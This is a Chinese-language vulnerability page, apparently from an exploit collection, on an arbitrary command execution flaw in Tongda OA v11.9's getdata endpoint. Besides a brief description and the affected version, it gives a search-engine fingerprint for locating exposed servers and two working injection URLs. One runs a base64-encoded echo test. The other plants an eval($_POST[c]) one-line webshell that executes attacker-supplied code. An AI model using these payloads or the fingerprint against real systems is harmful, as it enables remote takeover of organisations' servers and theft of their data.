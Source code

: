 # 通达OA v11.9 getdata 任意命令执行漏洞

## 漏洞描述

通达OA v11.9 getdata接口存在任意命令执行漏洞，攻击者通过漏洞可以执行服务器任意命令控制服务器权限

## 漏洞影响

<a-checkbox checked>通达OA v11.9 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="通达OA网络智能办公系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1664008395196-d3f13158-1282-4a6a-8725-913db5edf1c0.png)

验证POC

```sql
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage
```

![img](../../../.vuepress/public/img/1664008478991-cda68968-6ac3-4d74-a583-7f1a42cbced2.png)

``` sql
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[c]))%3B/*&id=19&module=Carouselimage
```